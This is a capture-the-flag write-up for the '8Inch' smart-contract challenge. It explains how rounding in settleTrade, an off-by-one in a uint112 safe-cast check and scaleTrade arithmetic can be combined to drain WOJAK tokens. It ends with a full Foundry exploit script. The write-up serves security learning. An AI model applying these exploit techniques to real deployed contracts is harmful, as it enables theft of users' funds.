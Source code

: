 # 8Inch

Author: cbd1913 ([X/Twitter](https://x.com/cbd1913))

In this challenge, we are presented with a trade settlement contract where a trade has been created with the sell token `WOJAK` and the buy token `WETH`. The objective is to drain all `WOJAK` tokens and transfer them to the `0xc0ffee` address.

Within the `createTrade` function, the contract subtracts a `fee` from `_amountToSell` and records it in `trades[tradeId].amountToSell`. The entire amount of `WOJAK` tokens is transferred to the contract. In the `settleTrade` function, only the subtracted amount of `WOJAK` tokens can be transferred to the buyer, meaning we cannot directly drain all `WOJAK` tokens.

There is an issue in the `settleTrade` function where the buy amount to be transferred is rounded down:

```solidity
uint256 tradeAmount = _amountToSettle * trade.amountToBuy;
require(
    IERC20(trade.tokenToBuy).transferFrom(
        msg.sender,
        trade.maker,
        tradeAmount / trade.amountToSell
    ),
    "Buy transfer failed"
);
```

This means we can obtain 9 wei of `WOJAK` tokens by calling `settleTrade` with `_amountToSettle = 9`, without needing to provide any `WETH` tokens.

Additionally, there is an issue in the `SafeUint112` library that allows the value `1<<112` to be converted into `0`:

```solidity
/// @dev safeCast is a function that converts a uint256 to a uint112 and reverts on overflow
function safeCast(uint256 value) internal pure returns (uint112) {
    require(value <= (1 << 112), "SafeUint112: value exceeds uint112 max");
    return uint112(value);
}
```

We can exploit this vulnerability by setting a value to exactly `1<<112`, causing it to be converted to `0`.

Another suspicious function in the contract is `scaleTrade`. This function scales `amountToSell` and `amountToBuy` by multiplying them by a `scale` value, likely to trigger the overflow issue in `SafeUint112`. The critical part we need to bypass is the `originalAmountToSell < newAmountNeededWithFee` condition, as we do not possess any `WOJAK` tokens for the contract to transfer from us. Therefore, we need to make `newAmountNeededWithFee = 0` to bypass this condition. This can be achieved by setting `scale` such that `scale * originalAmountToSell + fee = 1<<112`.

```solidity
trade.amountToSell = safeCast(safeMul(trade.amountToSell, scale));
trade.amountToBuy = safeCast(safeMul(trade.amountToBuy, scale));
uint256 newAmountNeededWithFee = safeCast(
    safeMul(originalAmountToSell, scale) + fee
);
if (originalAmountToSell < newAmountNeededWithFee) {
    require(
        IERC20(trade.tokenToSell).transferFrom(
            msg.sender,
            address(this),
            newAmountNeededWithFee - originalAmountToSell
        ),
        "Transfer failed"
    );
}
```

However, we cannot directly manipulate the existing `trade` because our address is not the maker:

```solidity
require(msg.sender == trades[_tradeId].maker, "Only maker can scale");
```

Thus, we must create a new trade and attempt to drain all `WOJAK` tokens. The new trade must use `WOJAK` as the sell token because we want it to transfer `WOJAK` tokens out when calling `settleTrade`. Combined with the first issue, we can first obtain a small amount of `WOJAK` tokens from the contract, then create a new trade with `WOJAK` as the sell token.

The complete exploit strategy is as follows:

1. Drain 32 wei of `WOJAK` tokens from the contract with 4 calls to `settleTrade`.
2. Create a new trade with 32 wei of `WOJAK` as the sell token and any token as the buy token. The contract will record `amountToSell` as `32 - fee`, which is `2`.
3. Scale the trade with `scale = ((1 << 112) - 30) / 2` to make `tokenToSell` a large value, thereby bypassing the `originalAmountToSell < newAmountNeededWithFee` condition.
4. Settle the trade with `_amountToSettle = 10 ether`, which will transfer `10 ether` of `WOJAK` tokens to the contract.

Script:

```solidity
function run() public {
    vm.startBroadcast();

    t.settleTrade(0, 9);
    t.settleTrade(0, 9);
    t.settleTrade(0, 9);
    t.settleTrade(0, 5);
    SimpleERC20 weth2 = new SimpleERC20(
        "Wrapped Ether 2",
        "WETH2",
        18,
        10 ether
    );
    wojak.approve(address(t), 100);
    t.createTrade(address(wojak), address(weth2), 32, 0);
    t.scaleTrade(1, ((1 << 112) - 30) / 2);
    t.settleTrade(1, 10 ether);
    console.log("balance of wojak", wojak.balanceOf(user));
    wojak.transfer(address(0xc0ffee), 10 ether);
    vm.stopBroadcast();
}
```
